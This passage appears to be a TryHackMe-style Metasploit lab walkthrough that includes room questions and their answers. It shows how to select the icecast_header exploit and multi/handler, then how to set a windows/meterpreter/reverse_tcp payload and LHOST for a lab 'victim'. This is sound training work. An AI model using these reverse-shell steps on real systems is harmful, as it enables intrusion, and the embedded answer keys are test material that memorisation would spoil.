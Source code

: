 One last thing, try the command `vulns` now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.

*Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit, you can simply type `use` followed by a unique string found within only the target exploit. For example, try this out now with the following command `use icecast`. What is the full path for our exploit that now appears on the msfconsole prompt?*
> ***exploit/windows/http/icecast_header***

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command `search multi/handler`.

![SEARCH Results](images/search.jpg)

Go ahead and run the command `use NUMBER_NEXT_TO  exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.


*What is the name of the column on the far left side of the console that shows up next to 'Name'?*
> ***#***


Now type the command `use NUMBER_FROM_PREVIOUS_QUESTION`. This is the short way to use modules returned by search results.

Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command `ip addr`, it will likely be your **tun0** interface.

![USE CMD](images/use.jpg)
